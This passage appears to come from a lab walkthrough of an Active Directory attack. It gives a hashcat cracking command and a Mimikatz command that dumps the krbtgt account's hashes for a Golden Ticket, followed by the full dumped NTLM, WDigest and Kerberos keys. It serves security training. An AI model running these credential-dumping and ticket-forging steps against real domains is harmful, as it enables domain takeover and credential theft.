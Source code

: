 then we rack them ``hashcat -m 1000 <hash> rockyou.txt``

### Mimikatz Golden Ticket

Dump hash of kerberos admin we identified earlier

``lsadump::lsa /inject /name:krbtgt``

```
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

* Primary
NTLM : 5508500012cc005cf7082a9a89ebdfdf
LM   :
Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

* WDigest
01  49a8de3b6c7ae1ddf36aa868e68cd9ea
02  7902703149b131c57e5253fd9ea710d0
03  71288a6388fb28088a434d3705cc6f2a
04  49a8de3b6c7ae1ddf36aa868e68cd9ea 
05  7902703149b131c57e5253fd9ea710d0
06  df5ad3cc1ff643663d85dabc81432a81
07  49a8de3b6c7ae1ddf36aa868e68cd9ea
08  a489809bd0f8e525f450fac01ea2054b
09  19e54fd00868c3b0b35b5e0926934c99
10  4462ea84c5537142029ea1b354cd25fa
11  6773fcbf03fd29e51720f2c5087cb81c
12  19e54fd00868c3b0b35b5e0926934c99
13  52902abbeec1f1d3b46a7bd5adab3b57
14  6773fcbf03fd29e51720f2c5087cb81c
15  8f2593c344922717d05d537487a1336d 
16  49c009813995b032cc1f1a181eaadee4
17  8552f561e937ad7c13a0dca4e9b0b25a
18  cc18f1d9a1f4d28b58a063f69fa54f27
19  12ae8a0629634a31aa63d6f422a14953
20  b6392b0471c53dd2379dcc570816ba10
21  7ab113cb39aa4be369710f6926b68094
22  7ab113cb39aa4be369710f6926b68094
23  e38f8bc728b21b85602231dba189c5be
24  4700657dde6382cd7b990fb042b00f9e
25  8f46d9db219cbd64fb61ba4fdb1c9ba7
26  36b6a21f031bf361ce38d4d8ad39ee0f 
27  e69385ee50f9d3e105f50c61c53e718e
28  ca006400aefe845da46b137b5b50f371
29  15a607251e3a2973a843e09c008c32e3

* Kerberos
Default Salt : CONTROLLER.LOCALkrbtgt
Credentials
des_cbc_md5       : 64ef5d43922f3b5d

* Kerberos-Newer-Keys
Default Salt : CONTROLLER.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066 
des_cbc_md5       (4096) : 64ef5d43922f3b5d

```
